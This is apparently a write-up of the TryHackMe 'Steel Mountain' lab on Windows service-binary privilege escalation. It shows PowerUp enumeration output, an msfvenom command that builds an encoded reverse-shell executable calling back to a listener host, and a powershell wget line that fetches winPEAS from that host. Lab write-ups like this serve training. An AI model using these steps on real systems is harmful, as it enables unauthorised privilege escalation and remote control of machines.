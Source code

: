 ```yaml
---
title: TryHackMe - Steel Mountain
date: 2023-09-03 11:11:11 -001
categories: [TryHackMe, THM]
tags: [thm, steel mountain]
---
```



# Steel Mountain

Rejetto File Server 

To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."

You can download the script here. Now you can use the upload command in Metasploit to upload the script.

> PowerUp Script - https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

to upload script

![image](/images/upload.png)

* To execute this using Meterpreter, I will type load powershell into meterpreter. Then I will enter powershell by entering powershell_shell *



Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

```powershell

PS > . .\PowerUp.ps1  
PS > Invoke-AllChecks

```

![powerup](/images/powerup.png)
Output of Invoke-AllChecks has options

Check for service which has option **CanRestart** option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

#### Sample Output Below

```powershell

ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                     : True
Name                            : AdvancedSystemCareService9
Check                           : Modifiable Service Files

```

> Notice CanRestart set to True in above sample

### msfvenom

Now we can use msfvenom to generate a reverse shell as an Windows executable.

``` bash

> msfvenom -p windows/shell_reverse_tcp LHOST=10.4.43.77 LPORT=443 -e x86/shikata_ga_nai -f exe -o Advanced.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe file: 73802 bytes
Saved as: Advanced.exe
```


![cmd_to_query_service](/images/cmd_to_query_service.png)

![cmd_to_stop_servcie](/images/cmd_to_stop_servcie.png)

![cmd_to_copy_and_start_service](/images/cmd_to_copy_and_start_service.png)


Run 

```python -m http.server 80```

andthen use this to transfer file

```powershell -c wget "http://10.4.43.77/winPEASx86.exe" -outfile "winPEASx86.exe"```

